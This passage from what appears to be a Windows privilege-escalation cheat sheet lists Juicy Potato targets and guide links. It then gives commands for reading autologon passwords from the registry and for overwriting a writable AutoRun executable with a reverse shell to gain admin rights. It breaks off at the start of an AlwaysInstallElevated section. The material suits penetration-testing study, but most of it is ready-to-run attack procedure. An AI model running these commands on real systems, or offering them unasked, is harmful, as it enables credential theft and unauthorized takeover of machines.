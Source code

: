 Affetcted Systems:
- Windows 7 Enterprise
- Windows 8.1 Enterprise
- Windows 10 Enterprise
- Windows 10 Professional
- Windows Server 2008 R2 Enterprise
- Windows Server 2012 Datacenter
- Windows Server 2016 Standard

Find CLSID here: https://ohpe.it/juicy-potato/CLSID/

`Warning: Juicy Potato doesn’t work in Windows Server 2019`

Guides:

https://0x1.gitlab.io/exploit/Windows-Privilege-Escalation/#juicy-potato-abusing-the-golden-privileges

https://hunter2.gitbook.io/darthsidious/privilege-escalation/juicy-potato#:~:text=Juicy%20potato%20is%20basically%20a,this%2C%20we%20achieve%20privilege%20escalation.

Usage: https://github.com/ohpe/juicy-potato

### Autologon User Credentials

Use the following command and if return output take autologon user credentials from registy:

`reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"`

### Autoruns

> Windows can be configured to run commands at startup, with elevated privileges. These “AutoRuns” are configured in the Registry. If you are able to write to an AutoRun executable, and are able to restart the system (or wait for it to be restarted) you may be able to escalate privileges.

Find auto run executables:

`reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`

Using accesschk.exe, note that one of the AutoRun executables is writable by everyone:

`accesschk.exe /accepteula -wvu "\<path>\<file.exe>"`

copy a shell to auto run executable:

`copy <path>\<file.exe> "\<path>\<file.exe>" /Y`

Start a listener on Kali and then restart the Windows VM. Open up a new RDP session to trigger a reverse shell running with admin privileges. You should not have to authenticate to trigger it.

`rdesktop <ip>`

### AlwaysInstallElevated

> MSI files are package files used to install applications. These files run with the permissions of the user trying to install them. Windows allows for these installers to be run with elevated (i.e. admin) privileges. If this is the case, we can generate a malicious MSI file which contains a reverse shell.
